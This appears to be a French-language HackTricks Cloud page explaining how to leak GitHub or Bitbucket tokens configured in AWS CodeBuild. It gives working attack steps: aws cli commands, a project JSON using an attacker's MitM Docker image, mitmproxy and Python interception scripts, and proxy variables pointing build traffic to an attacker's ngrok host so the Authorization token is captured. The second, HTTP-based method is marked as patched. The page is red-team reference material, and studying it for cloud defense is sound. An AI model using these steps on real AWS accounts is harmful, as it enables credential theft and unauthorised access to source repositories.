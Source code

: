 # AWS Codebuild - Fuite de Token

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Récupérer les Tokens Configurés Github/Bitbucket

Premièrement, vérifiez s'il y a des identifiants source configurés que vous pourriez récupérer :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous trouvez que l'authentification, par exemple à Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild **utilise une image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou changer l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui configurera les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créez et téléchargez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour configurer votre adresse IP proxy et définir votre certificat SSL et **construire l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker générée précédemment**

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

3. **Définissez le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **version de mitmproxy utilisée était la 9.0.1**, il a été signalé qu'avec la version 10 cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécutez le build et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné de la semaine du 20 février 2023 (je pense vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec des **permissions élevées sur un CodeBuild pourrait provoquer une fuite du token Github/Bitbucket** configuré ou, si les permissions étaient configurées via OAuth, du **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en les pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Puis, exécuter l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **credentials** seront **envoyés en clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il possède et les (ab)user plus facilement qu'en utilisant directement le service CodeBuild.
{% endhint %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
